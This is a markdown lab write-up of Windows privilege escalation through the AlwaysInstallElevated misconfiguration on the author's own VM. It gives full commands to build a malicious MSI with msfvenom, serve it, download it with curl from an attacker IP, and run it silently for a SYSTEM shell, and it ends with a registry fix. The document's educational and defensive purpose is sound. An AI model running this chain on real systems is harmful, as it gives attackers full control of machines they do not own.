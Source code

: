 # Windows Privilege Escalation using AlwaysInstallElevated
> ⚠️ Disclaimer: This project is for **educational & documentation purposes**.I have created a vulnerability on VM which allows me to escalate Privileges. Do not use these 
techniques on systems you do not own or have explicit permission to test.

## Overview
This document walks through a Windows privilege escalation attack leveraging the **AlwaysInstallElevated** misconfiguration. We demonstrate the process step-by-step using a deliberately created low-privileged user and successfully escalate privileges to **NT AUTHORITY\SYSTEM**.

---

## 🔧 Environment Setup
- **OS:** Windows 10 (x64)
- **Attacker Machine:** Kali Linux
- **Tools Used:**
  - `winPEAS.exe` - Local enumeration tool for Windows
  - `msfvenom` - Payload generator from Metasploit Framework
  - `msiexec` - Windows Installer executable
  - `curl` - For file transfer

---

## 👤 Creating a Low-Privileged User
We created a new local user to simulate a compromised low-privilege environment:

```
net user sujit password123 /add
net localgroup Users sujit /add
```

This user **does not** have administrative rights by default.

---

## 🔍 Enumeration with winPEAS
We transferred and executed `winPEAS.exe` under the `sujit` account. During enumeration, it flagged the following:

![winPEAS](../../screenshots/Privilege-Escalations/Winpeas.png)

*Figure 1: Running winPEAS.exe and finding a vulnerability*

```
[+] Checking AlwaysInstallElevated
  HKLM\...\Installer\AlwaysInstallElevated = 1
```

> The `HKLM` (machine-wide) key was set to `1`, enabling a vulnerability. The `HKCU` (user-specific) key was not set due to lack of permissions from the low-priv user.

This misconfiguration allows **any user** to install MSI files with elevated privileges if both registry keys are set. In our case, we manually set both as an admin.

---

## ⚠️ Vulnerability: AlwaysInstallElevated

**What it is:** A Windows policy that, when enabled, lets users install MSI packages with elevated privileges.

**Why it’s dangerous:** If both of these registry keys are set to `1`:
- `HKCU\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`
- `HKLM\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`

Then **any user** can escalate to SYSTEM by installing a crafted `.msi` file.

**Real-world implication:** Attackers with local access can gain full control without triggering UAC.

---

## 💥 Exploitation

### Step 1: Generate Malicious MSI
On Kali Linux:
```
msfvenom -p windows/x64/exec CMD='cmd.exe' -f msi > payload.msi
```

**Explanation:**  
- `-p windows/x64/exec` - Run an arbitrary command (`cmd.exe`)
- `CMD='cmd.exe'` - Spawns a shell
- `-f msi` - Output format is a Windows Installer package

### Step 2: Host on HTTP server
```
python3 -m http.server 8000
```

### Step 3: Transfer to victim
On Windows as low-priv user:
```
curl http://192.168.1.30:8000/payload.msi -o payload.msi
```

### Step 4: Execute payload
```
msiexec /quiet /qn /i payload.msi
```

### ✅ Result:
A new command prompt opens with SYSTEM privileges:

![Exploited](../../screenshots/Privilege-Escalations/output-win.png)

*Figure 2: New Command prompt with highest privilege*

```
whoami
nt authority\system
```

---

## ✅ Conclusion
I successfully escalated privileges from a **low-privilege user** to **SYSTEM** using the `AlwaysInstallElevated` vulnerability. This attack is simple but highly effective when registry settings are misconfigured.

**Defensive Measure:**
Ensure both HKLM and HKCU registry keys for AlwaysInstallElevated are set to `0`, and restrict local user access.